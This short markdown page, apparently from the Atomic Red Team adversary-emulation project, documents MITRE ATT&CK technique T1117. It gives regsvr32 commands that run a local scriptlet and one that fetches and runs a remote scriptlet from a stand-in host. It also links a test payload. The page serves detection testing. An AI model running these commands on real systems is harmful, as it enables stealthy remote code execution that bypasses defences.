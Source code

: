 ## Regsvr32

MITRE ATT&CK Technique: [T1117](https://attack.mitre.org/wiki/Technique/T1117)

### Local Scriptlet Execution:

    regsvr32.exe /s /u /i:file.sct scrobj.dll

### Remote Scriptlet Exection:

    regsvr32.exe /s /u /i:http://example.com/file.sct scrobj.dll
  
## Test Script

[regsvr32.sct](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/RegSvr32.sct)


